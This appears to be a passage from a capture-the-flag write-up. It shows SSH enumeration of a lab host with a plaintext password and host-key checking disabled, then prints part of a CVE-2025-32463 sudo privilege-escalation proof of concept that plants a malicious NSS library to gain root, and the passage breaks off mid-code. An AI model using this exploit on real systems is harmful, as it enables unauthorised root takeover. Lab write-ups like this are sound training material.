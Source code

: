 **Output:**
```
-rwxr-xr-x 1 root root 0 Oct 26 00:31 /.dockerenv
PRETTY_NAME="Ubuntu 24.04.3 LTS"
NAME="Ubuntu"
VERSION_ID="24.04"
VERSION="24.04.3 LTS (Noble Numbat)"
VERSION_CODENAME=noble
```

✅ **Running in a Docker container with Ubuntu 24.04**

### Discovering sudo Source in /opt

```bash
sshpass -p 'SecurinetsShop2025!' ssh -o StrictHostKeyChecking=no shopuser@172.19.4.10 'ls -la /opt'
```

**Output:**
```
total 5284
drwxr-xr-x  1 root root    4096 Oct 25 20:27 .
drwxr-xr-x  1 root root    4096 Oct 26 00:31 ..
drwxr-xr-x 14 root root    4096 Oct 25 20:30 sudo-1.9.16p2
-rw-r--r--  1 root root 5398419 Nov 25  2024 sudo-1.9.16p2.tar.gz
```

**Interesting**: sudo 1.9.16p2 source code is present, suggesting this is a known vulnerable version.

### Searching for Exploit Scripts

```bash
sshpass -p 'SecurinetsShop2025!' ssh -o StrictHostKeyChecking=no shopuser@172.19.4.10 'find / -name "*sudo*" -type f 2>/dev/null | grep -E "\.(sh|py)$"'
```

**Output:**
```
/tmp/sudo-chwoot.sh
```

✅ **Exploit script found in `/tmp/sudo-chwoot.sh`**

### Reading the Exploit Script

```bash
sshpass -p 'SecurinetsShop2025!' ssh -o StrictHostKeyChecking=no shopuser@172.19.4.10 'cat /tmp/sudo-chwoot.sh'
```

**Full Exploit Code:**
```bash
#!/bin/bash
# sudo-chwoot.sh – PoC CVE-2025-32463
set -e

STAGE=$(mktemp -d /tmp/sudowoot.stage.XXXXXX)
cd "$STAGE"

# 1. NSS library with malicious constructor
cat > woot1337.c <<'EOF'
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor))
void woot(void) {
    setreuid(0,0);          /* change to UID 0 (root) */
    setregid(0,0);          /* change to GID 0 (root) */
```